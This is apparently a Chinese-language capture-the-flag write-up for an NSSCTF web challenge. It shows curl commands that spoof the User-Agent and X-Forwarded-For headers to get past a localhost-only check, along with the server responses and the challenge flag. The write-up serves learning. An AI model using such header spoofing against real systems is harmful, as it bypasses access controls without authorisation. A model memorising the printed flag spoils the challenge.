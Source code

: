 # do_you_know_http

题目链接：https://www.nssctf.cn/problem/385



解题思路：

题目页面有写：

```
Please use 'WLLM' browser!
```

因此，在请求头部传入User-Agent: WLLM：

```
curl -H "User-Agent: WLLM" -XGET http://node4.anna.nssctf.cn:28255/hello.php -D -
```

得到响应：

```
HTTP/1.1 302 Found
Date: Tue, 13 May 2025 13:39:43 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Location: ./a.php
Content-Length: 7
Content-Type: text/html; charset=UTF-8

success
```

访问响应location里的a.php：

```
curl -H "User-Agent: WLLM" -XGET http://node4.anna.nssctf.cn:28255/a.php -D -
```

得到响应：

```
HTTP/1.1 200 OK
Date: Tue, 13 May 2025 13:39:51 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Content-Length: 64
Content-Type: text/html; charset=UTF-8


You can only read this at local!<br>Your address117.152.92.17
```

利用X-FORWARED-FOR伪造地址：

```
curl -H "User-Agent: WLLM" -H "X-FORWARDED-FOR: 127.0.0.1" -XGET http://node4.anna.nssctf.cn:28255/a.php -D -
```

得到响应：

```
HTTP/1.1 302 Found
Date: Tue, 13 May 2025 13:44:12 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Location: ./secretttt.php
Content-Length: 60
Content-Type: text/html; charset=UTF-8


You can only read this at local!<br>Your address127.0.0.1
```

访问响应里的secretttt.php：

```
curl -H "User-Agent: WLLM" -H "X-FORWARDED-FOR: 127.0.0.1" -XGET http://node4.anna.nssctf.cn:28255/secretttt.php -D -
```

得到flag：

```
HTTP/1.1 200 OK
Date: Tue, 13 May 2025 13:45:12 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Content-Length: 44
Content-Type: text/html; charset=UTF-8

NSSCTF{c41e0066-ea5c-4cb4-9aea-615636a9858d}
```

